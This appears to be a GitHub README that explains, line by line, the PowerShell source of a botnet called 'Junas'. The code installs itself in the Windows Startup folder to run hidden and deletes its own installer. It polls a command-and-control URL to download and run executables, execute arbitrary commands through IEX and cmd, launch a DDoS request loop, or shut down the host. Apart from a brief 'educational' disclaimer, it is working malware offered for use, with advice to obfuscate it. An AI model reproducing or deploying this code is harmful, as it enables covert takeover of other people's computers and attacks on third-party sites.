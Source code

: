 ## Junas botnet
<br> *Legal*
<br> This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br> 
<br> *Copyright (c) 2021 Pokesi All Rights Reserved.*
<br> *How it works **step by step***
<br> Syntax used:
<br> `Line of code/variable` - Explanation
<br> ... `Line of code` - Explanation [not required]
<br> ...... `Line of code` - Explanation [only used for branches]
<br> ... `}` - Ends the branch
<br> 
<br> `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> `$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br> ... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br> ... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br> ... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br> ... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br> ... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> ... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> ... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br> ... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br> ...... `exit()` - Exits PowerShell
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br> ...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br> ...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br> ...... `try {` - PowerShell try
<br> ......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br> ......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br> ......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br> ......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br> ...... `}` - Ends the branch
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br> ...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br> ...... `IEX($cmd3);` - Runs the string with IEX.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br> ...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br> ...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br> ...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br> ...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br> ...... `Stop-Computer;` - Shutdown machine
<br> ... `}` - Ends the branch
<br> ... `else {` - If nothing else works, do this.
<br> ...... `exit;` - Stops the script
<br> ... `}` - Ends the branch
<br> ... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br> `"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br> `Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
<br> *Usage*
<br> Change https://yoursite.com/server.txt to your command and control server.
<br> You may want to obfuscate this or add custom commands.
